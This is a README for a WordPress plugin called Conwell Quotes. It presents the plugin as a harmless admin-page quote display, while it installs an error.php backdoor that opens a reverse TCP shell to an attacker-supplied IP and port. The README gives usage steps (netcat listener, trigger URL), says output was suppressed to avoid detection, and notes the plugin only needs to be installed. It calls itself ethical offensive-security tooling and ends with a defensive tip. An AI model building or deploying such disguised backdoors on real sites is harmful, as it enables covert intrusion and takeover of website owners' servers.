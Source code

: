 # Conwell-Quotes
A malicious WordPress plugin that hides a reverse shell in a backdoor behind legitimate plugin functionality - used for legal and ethical offensive security purposes.  

# Purpose
Modeled after the Hello Dolly plugin, Conwell Quotes displays a random quote on each page of the WordPress admin portal based on Conwell's Acres of Diamonds (a great read BTW).  It also uploads an error.php backdoor that can be used to open a reverse TCP shell.  The reverse shell code was mostly written by Pen Test Monkey.  The print lines have been either commented out, suppressed, or slightly modified to avoid detection.

# Offensive Security Use
You'll want to pass the IP and port as URL parameters to error.php to match your attack system.

Upload the plugin to Wordpress, use netcat to open a listener on your attack machine, and then open http://example.com/wp-content/plugins/conwell/error.php?ip=XX.XXX.XXX.X&port=XXXXX in a browser.  The sceen will clock, but will not display any notable error messages.

# Note
Some hosts, like Bluehost, have their WordPress accounts on non-dedicated IPs which means they have nearly all ports blocked.  You may not be able to use the malicious shell in error.php.  However, the legitimate functionality in Conwell Quotes will still work and the user will not receive any error message.

When uploading the plugin, WordPress does not have any malware detection and so the plugin will install and activate as usual.  To get access to the reverse shell, the plugin does not need to be activated, it simply needs to be installed.  Yet another good reason to delete out any unused WordPress plugins.
